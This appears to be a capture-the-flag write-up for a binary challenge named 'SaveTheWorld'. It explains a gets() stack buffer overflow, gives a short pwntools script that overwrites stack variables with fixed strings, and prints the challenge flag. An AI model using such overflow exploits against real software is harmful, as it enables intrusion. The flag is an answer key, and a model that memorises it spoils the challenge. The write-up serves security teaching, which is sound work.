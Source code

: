# SaveTheWorld

### Description

We need your help to save the world. The selected fighter is too weak, do you have something to say about it?

### Rules
- You cannot patch this binary. 
- Do not modify auxil1 and auxil2

## Solution

We have a trivial buffer overflow vulnerability, we just need to overwrite some stack variables with the correct values.
The input length isn't checked due to the use of `gets()` for handling user input, the target buffer is 72 bytes long, its content aren't checked against anything so we can just fill it with `A`s.
The only important thing here is overwriting the variables with the correct value and in the correct order (that's easily checked by looking at the variables position in the stack).

```python
from pwn import *

context.binary = "./SaveTheWorld"
p = process()
p.sendline(b"A" * 72 + b"Jotaro!!" + b"Star Platinum!!!" + b"HORA" + b"9999")
p.recvuntil(b"Congratulation, you won!!!")
os.system("grep .*{.*}.* victory_recap.txt")
```

### Flag

```plain
SPRITZ{Yare_Yare}
```

